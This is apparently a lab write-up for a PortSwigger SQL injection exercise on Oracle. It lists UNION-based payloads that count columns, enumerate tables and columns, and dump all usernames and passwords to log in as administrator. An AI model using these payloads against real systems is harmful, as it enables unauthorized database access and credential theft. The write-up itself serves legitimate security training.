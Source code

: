 # SQL Injection - Listing the Database contents on Oracle

## 📌 Lab Details
- **Title**: SQL Injection - Retrieving the list of username and password of all users.
- **Difficulty**: Medium
- **Category**: SQL Injection
- **Lab URL**: https://portswigger.net/academy/labs/launch/de4256d42cc604a2a3f7e792c5fff88df1712f1537cd506ed2537efedbd4c665?referrer=%2fweb-security%2fsql-injection%2fexamining-the-database%2flab-listing-database-contents-oracle

## 🔍 Summary
This lab demonstrated how SQL Injection can be used to retrieve data from Oracle Databases.

## 🛠 Steps to Solve
1. Determine the number of columns present by injecting `'+UNION+SELECT+'abc','def'+FROM+DUAL--`.
2. Injecting `'+UNION+SELECT+table_name,+NULL+FROM+all_tables--` to retrieve the list of tables in the database.
3. Injecting `'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--` to retrieve the details of the columns in the table (replacing the table name).
4. Injecting `'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--` to retrieve the usernames and passwords of all users (replacing the table and column names).
5. Find the password of administrator to log in.
   
## 📖 Key Takeaways
- Understanding how SQL queries can be manipulated on Oracle Databases.
- Using `UNION` and `SELECT` commands to extract data from tables.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/01553fe3-f943-4dee-ba8f-c070f6ff3fe2)
![image](https://github.com/user-attachments/assets/95a212c4-ef77-4d24-96b7-4f7807481baa)
![image](https://github.com/user-attachments/assets/32b46bec-0812-4822-ba9f-63cce9412c40)


